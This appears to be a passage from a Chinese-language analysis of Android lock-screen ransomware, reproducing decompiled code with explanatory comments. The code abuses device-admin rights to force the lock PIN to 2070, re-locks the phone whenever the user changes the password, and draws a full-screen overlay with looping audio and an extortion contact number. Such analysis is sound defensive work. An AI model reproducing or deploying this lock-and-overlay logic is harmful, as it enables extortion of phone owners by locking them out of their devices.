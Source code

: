         Intent v9 = null;
        Context v10 = v1;
        try {
            v11 = Class.forName("com.h.s");//寻找这个类
        }
        catch(ClassNotFoundException v8_1) {
            throw new NoClassDefFoundError(v8_1.getMessage());
        }

        super(v10, v11);
        v8.setFlags(268435456); 
        v1.startService(v8); //启动这个service
        v0.getManager(v1).resetPassword(v4, 0);
        super.onEnabled(v1, v2);
    }
	锁屏密码改变
    @Override public void onPasswordChanged(Context arg10, Intent arg11) {
        String v4 = Integer.toString(2070);
        this.getManager(arg10).lockNow();
        this.getManager(arg10).resetPassword(v4, 0);//不激活，锁屏密码照样设置为2070
        super.onPasswordChanged(arg10, arg11);
    }

    @Override public void onReceive(Context arg8, Intent arg9) {
        Log.i("------", "onReceive-----");
        super.onReceive(arg8, arg9);
    }
    }

可以发现这里将锁屏 密码设置为了2070，并且试图调用com.h.s类，那么我们跟进分析：

进入com.h.s类，在最下面找到了onStart方法：

    @Override public void onStart(Intent arg8, int arg9) {
    super.onStart(arg8, arg9);
    this.c();
    }

继续跟进c()方法：


    private void c() {
        s v0 = this;
        v0.wmParams = new WindowManager$LayoutParams();
        Application v6 = v0.getApplication();
        v0.getApplication();
        v0.mWindowManager = v6.getSystemService(Context.WINDOW_SERVICE);
        v0.wmParams.type = 2010;
        v0.wmParams.format = 1;
        v0.wmParams.flags = 1280;
        v0.wmParams.gravity = 49;
        v0.wmParams.x = 0;
        v0.wmParams.y = 0;
        v0.wmParams.width = -1;
        v0.wmParams.height = -1;
        v0.mFloatLayout = LayoutInflater.from(v0.getApplication()).inflate(2130903041, null);//加载布局，
        MediaPlayer v2 = MediaPlayer.create(v0, 2131099648);
        v2.setLooping(true);
        v2.start();
        v0.mWindowManager.addView(v0.mFloatLayout, v0.wmParams);
        v0.bt = v0.mFloatLayout.findViewById(2131361794);
        v0.ed = v0.mFloatLayout.findViewById(2131361792);
        v0.tv = v0.mFloatLayout.findViewById(2131361793);
        s v5 = v0;
        try {
            v5.ed.setHint(v0.des.decrypt("1d836c668669c91d"));
            v0.tv.append(v0.des.decrypt("加群562437579"));